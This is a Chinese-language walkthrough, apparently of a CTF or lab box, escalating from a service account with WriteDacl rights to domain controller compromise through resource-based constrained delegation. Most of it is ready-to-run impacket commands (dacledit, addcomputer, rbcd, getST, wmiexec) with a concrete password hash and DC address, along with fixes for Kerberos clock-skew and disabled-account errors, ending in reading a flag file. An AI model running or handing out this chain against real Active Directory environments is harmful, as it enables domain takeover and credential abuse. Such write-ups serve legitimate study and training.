

这个用户对域控有WriteDacl权限，可以打RBCD，先添加用户给这个主机完全控制权限

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'svc_monadm01' -target-dn 'CN=ASLSRVAD05,OU=Domain Controllers,DC=aoseluauto,DC=com' 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5
```

再者就是正常流程了

```bash
impacket-addcomputer 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5 -computer-name 'TEST6$' -computer-pass 'P@ssw0rd'

impacket-rbcd 'aoseluauto.com/svc_monadm01' -hashes :ab232c3cf9f4b7cf27602082b04f306b -dc-ip 172.16.34.5 -action write -delegate-to 'ASLSRVAD05$' -delegate-from 'TEST6$'

impacket-getST aoseluauto.com/'TEST6$':'P@ssw0rd' -spn cifs/ASLSRVAD05.aoseluauto.com -impersonate Administrator -dc-ip 172.16.34.5
```

失败了报错为`KRB_AP_ERR_SKEW(Clock skew too great)`，和域控同步时间即可

```bash
sudo apt install ntpsec-ntpdate

sudo ntpdate 172.16.34.5

impacket-getST aoseluauto.com/'TEST6$':'P@ssw0rd' -spn cifs/ASLSRVAD05.aoseluauto.com -impersonate Administrator -dc-ip 172.16.34.5
```

`KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)`现在又出现了这样的错误，当前模拟的用户`Administrator`被禁用掉了。换任何一个管理员用户都可以



```bash
impacket-getST aoseluauto.com/'TEST6$':'P@ssw0rd' -spn cifs/ASLSRVAD05.aoseluauto.com -impersonate SVC_NETADM02 -dc-ip 172.16.34.5

export KRB5CCNAME=SVC_NETADM02@cifs_ASLSRVAD05.aoseluauto.com@AOSELUAUTO.COM.ccache

sudo vim /etc/hosts
172.16.34.5 ASLSRVAD05.aoseluauto.com

impacket-wmiexec -k -no-pass ASLSRVAD05.aoseluauto.com -dc-ip 172.16.34.5
cd C:\Users\Administrator\desktop\
type flag.txt
```


